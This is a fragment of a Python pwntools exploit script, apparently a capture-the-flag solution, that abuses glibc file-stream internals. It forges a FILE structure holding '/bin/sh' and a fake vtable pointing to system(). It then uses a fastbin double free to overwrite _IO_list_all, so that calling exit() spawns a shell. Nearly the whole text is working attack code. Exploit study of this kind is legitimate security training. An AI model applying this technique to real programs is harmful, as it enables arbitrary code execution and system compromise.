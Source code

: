 ```python
    +0x00c0 _mode                : int
    +0x00c4 _unused2             : char [20]
"""
# Create fake vtable
fake_vtable = p64(0) * 3
fake_vtable += p64(libc.sym.system)
vtable_addr = malloc(0x100, fake_vtable)

# Create fake FILE
fake_file = b"/bin/sh\0"                # _flags
fake_file += p64(0x61)                  # _IO_read_ptr
fake_file += p64(0xdeadbeef)            # _IO_read_end
fake_file += p64(0xdeadbeef)            # _IO_read_base
fake_file += p64(1)                     # _IO_write_base
fake_file += p64(2)                     # _IO_write_ptr
fake_file += p64(0)*18                  # _IO_write_end ... __pad5
fake_file += p32(0)                     # _mode
fake_file += p8(0)*20                   # _unused2
fake_file += p64(vtable_addr)
file_addr = malloc(0x100, fake_file)


chunk_C = malloc(0x68, "CCCC")
chunk_D = malloc(0x68, "DDDD")
free(chunk_C)
free(chunk_D)
free(chunk_C)

malloc(0x68, p64(libc.sym._IO_list_all - 35))
malloc(0x68, "osef")
malloc(0x68, "osef")
malloc(0x68, p8(0)*(35-16) + p64(file_addr))
exit()

io.interactive()
```
